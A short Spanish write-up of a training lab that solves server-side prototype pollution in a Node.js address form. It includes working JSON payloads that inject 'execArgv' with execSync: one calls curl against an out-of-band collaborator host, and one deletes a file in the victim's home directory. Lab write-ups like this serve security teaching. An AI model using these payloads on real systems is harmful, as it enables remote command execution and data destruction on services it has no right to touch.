







## LAB



Al ingresar con las credenciales otorgadas, veremos que tenemos un apartado para actualizar nuestra dirección.



Asi mismo, validamos en este apartado que la explotación de prototype pollution y efectivamente es vulenrable.



Revisando un poco sobre como ejecutar comandos, nos tomamos con este articulo el que explica sobre ello:

- https://medium.com/infosecmatrix/29-9-lab-remote-code-execution-via-server-side-prototype-pollution-d5c98bfe3e73

```c
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

Por lo que al insertar y insertar el comando para eliminar el archivo el que se nos solicita.

```c
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"7e0hs9X6LiVF8RWD6WT4Zaq9lVSfbp8a",

"__proto__": {

    "execArgv":[

"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"

    ]

}}
```



Y luego ir al apartado de `Run maintenance jobs`:



Vemos que se ejecuta el comando y asi mismo solucionar el laboratorio.

